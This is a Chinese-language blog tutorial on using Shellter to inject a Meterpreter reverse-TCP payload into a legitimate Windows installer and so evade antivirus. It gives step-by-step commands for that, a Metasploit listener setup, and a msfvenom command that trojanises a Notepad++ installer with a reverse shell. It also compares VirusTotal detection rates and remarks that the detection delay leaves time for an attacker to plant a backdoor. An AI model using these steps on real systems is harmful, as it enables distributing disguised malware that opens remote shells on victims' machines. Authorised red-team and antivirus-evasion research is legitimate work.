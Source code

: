 ```yaml
---
title: 免杀捆绑工具 shellter 的安装及使用
date: 2022-4-16 18:10:24
tags: [Trojan horse,Linux,Kali,Metasploit,shellter]
categories: 
 - [Penetration Test,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682443290/Typera/2023/04/d9bcdac19a99f14fe88a3ed9e829d637.png
---
```


:::default
**shellter** 是一个**捆绑**工具，采用动态 **shellcode** 注入 的方式，将 **shellcode** 注入到其它程序中，达到**免杀**的效果，躲避杀软的查杀。
:::

## shellter 安装
1. 添加 **i386 32位** 架构支持、更新 **apt**、安装 **wine** 依赖：
	- `dpkg --add-architecture i386 && apt update && apt -y install wine32`
2. 安装 **shellter**：
	- `apt install shellter`
	![image-20230426011840045](https://res.cloudinary.com/sycamore/image/upload/v1682443125/Typera/2023/04/0c4297a033272d1212d9cb86e4daf005.png)
## shellter 使用
> 使用 shellter 捆绑 Meterpreter_Reverse_TCP

**捆绑步骤：**
1. 命令行输入 `shellter` 打开工具
2. 输入 `A` 或者 `a`，选择 **自动模式**；
3. `PE Target:` 后输入要进行 **捆绑** 的 **文件路径**
![image-20230426011919683](https://res.cloudinary.com/sycamore/image/upload/v1682443164/Typera/2023/04/272fa29e9da9d004a3cf25b87079f7de.png)
<br>
4. 输入`Y`，进入 **隐形模式**
![image-20230426011923428](https://res.cloudinary.com/sycamore/image/upload/v1682443168/Typera/2023/04/0ac54c6f74fda57f2a51ac0b8bde409f.png)
<br>
5. 输入`L`，使用 **payload** 攻击模块列表（即上面的 **1~7** ）
6. **payload** 编号选择 `1` ，使用 Meterpreter_Reverse_TCP 攻击
![image-20230426011927372](https://res.cloudinary.com/sycamore/image/upload/v1682443172/Typera/2023/04/073c31195d0c78a68e8b3c2fecbc8531.png)
<br>
7. 分别输入监听端的 **IP**、**端口号**
![image-20230426011931101](https://res.cloudinary.com/sycamore/image/upload/v1682443175/Typera/2023/04/396417290b20f351cc3c1d96669a3c4e.png)
<br>
8. 按 `[Enter]` 退出 **shellter** ：
![image-20230426011934700](https://res.cloudinary.com/sycamore/image/upload/v1682443179/Typera/2023/04/0169aba2f4b7dfa0ba83b3304994339f.png)

<br>

**[ 关于生成的文件 ]**
> **捆绑完毕**的文件 会代替 **原文件** ，即出现在 原文件目录 下，**名字相同**
> 而**原文件**会 **备份** 在目录 `/root/Shellter_Backups/` ：
> ![image-20230426011938517](https://res.cloudinary.com/sycamore/image/upload/v1682443183/Typera/2023/04/9b58fed5ce217d4b84967579f2522d55.png)
## 利用 & 免杀效果
### 利用
1. 上传到 **Win7_x64** 虚拟机，
2. **Kali_Linux** 虚拟机打开 **msf** （命令 `msfconsole`），监听**反弹 shell**：
	- `use exploit/multi/handler`
	- `set payload windows/meterpreter/reverse_tcp`
	- `set LHOST 192.168.158.139`
	- `set LPORT 4444`
	- `run`

**反弹 shell** 成功！
![image-20230426011944783](https://res.cloudinary.com/sycamore/image/upload/v1682443189/Typera/2023/04/4eff497abdd31d7be53e51e0d88f75f7.png)

### 免杀效果
我的 **Win7_x64 虚拟机** 安装了 **360 全家桶**，

但是 **静态检测** 貌似并没有查出 **木马文件** ~

运行木马程序，并成功获得 **meterpreter** 的 **shell** 之后，**360** 竟然也没有第一时间报毒。。。 什么情况 (⊙_⊙)？

大概一分钟之后，才提示有木马：
![image-20230426011949574](https://res.cloudinary.com/sycamore/image/upload/v1682443194/Typera/2023/04/69719cbb27c9df97660f0c6405be89c7.png)
（实际上这个时间足够黑客 **迁移进程** 并 **布置后门** 了)

当然，如果你的电脑以前中过这个毒，**360** 会第一时间反应过来
（但这要是**还没反应**，**360** 就该进回收站了）

然后看看 **virustotal** 的检测情况（**31 / 70**）：[检测报告 传送门1](https://www.virustotal.com/gui/file/e4e97bef85f3970d42e81d6f75815050d7ff2370790888fe9d78948bc83b30a7)
![image-20230426011954090](https://res.cloudinary.com/sycamore/image/upload/v1682443198/Typera/2023/04/6a65ae126f5f5f5c0658d6165d837a04.png)

***对比 ：***
使用 同程序 同**payload**，用 **msf** 自带的捆绑手段生成的木马：
（命令：`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.158.139 LPORT=4444 -x npp.8.1.4.Installer.exe -f exe > mp_npp.exe`）

**virustotal** 的检测情况（**40 /  70**）：[检测报告 传送门2](https://www.virustotal.com/gui/file/c3a7c2280e4aa9aa0693729049f7f8e0ff05e253c1047ef282748c3509687207)
![image-20230426011958597](https://res.cloudinary.com/sycamore/image/upload/v1682443202/Typera/2023/04/c0631de31f6d8f365c052ec14a014b37.png)

> 相比较而言，可以说 **shellter** 的捆绑**免杀**效果比 **msf** 好很多了。
